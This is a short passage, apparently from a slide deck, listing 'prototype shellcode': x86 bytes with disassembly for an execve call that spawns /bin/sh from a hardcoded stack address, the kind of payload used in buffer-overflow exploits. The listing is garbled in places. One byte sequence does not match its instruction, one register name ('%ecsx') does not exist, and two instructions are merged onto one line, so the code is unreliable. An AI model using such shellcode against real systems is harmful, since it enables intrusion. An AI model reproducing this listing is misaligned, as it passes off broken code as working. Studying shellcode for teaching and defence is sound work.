

# Prototype shellcode
b8 0b 00 00 00        mov    $0xb,%eax
bb a0 fb ff bf        mov    $0xbffffba0,%ebx
8d 4b 08              lea    8(%ebx),%ecx
81 d2                 xorl   %edx,%edx
83 c2 04              add    $0x4,%edx
c7 03 2f 62 69 6e     movl   $0x6e69622f,(%ebx)
c7 43 04 2f 73 68 00  movl   $0x68732f,4(%ebx) 89 19                 mov    %ebx,(%ecx)
89 51 04              mov    %edx,4(%ecsx)
cd 80                 int    $0x80